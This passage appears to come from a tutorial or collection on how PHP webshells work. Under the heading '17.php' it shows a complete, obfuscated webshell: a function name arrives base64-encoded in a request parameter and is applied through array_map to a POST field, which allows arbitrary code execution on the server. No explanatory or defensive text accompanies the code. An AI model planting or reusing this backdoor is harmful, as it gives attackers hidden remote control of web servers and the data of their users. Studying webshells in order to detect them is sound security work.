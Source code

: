 ![](webshell原理.assets/16.png)

#### 17.php

```php
<?php
	$e = $_REQUEST['e'];
	$arr = array($_POST['pass'],);
	array_map(base64_decode($e), $arr);
?>
```
